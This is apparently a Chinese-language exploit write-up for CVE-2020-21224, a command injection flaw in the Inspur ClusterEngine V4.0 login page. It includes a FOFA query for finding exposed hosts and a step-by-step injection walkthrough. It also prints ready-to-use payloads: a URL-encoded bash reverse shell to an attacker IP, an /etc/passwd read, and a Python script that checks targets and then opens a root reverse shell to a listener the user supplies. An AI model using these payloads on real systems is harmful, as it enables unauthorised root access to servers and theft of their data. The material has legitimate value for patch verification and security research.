# 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## FOFA

```
title="TSCEV4.0"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091847442.png)



由于登录页面没有发现验证码，进行账号爆破



当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091847752.png)



通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有



一个 ' ，系统将抛出异常。



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091847377.png)

![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091847382.png)



进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091847158.png)



定尝试发送 ' ' 来查看响应包。



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848777.png)



我注意到 grep 命令错误，服务端的代码可能是这样



```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```



尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848195.png)

![8](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848197.png)



尝试读取  **/etc/passswd**



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848409.png)



尝试列目录



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848084.png)



确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848053.png)

![12](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848057.png)



反弹 shell



```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```



payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091848952.png)



上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法



```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091849501.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091849410.png)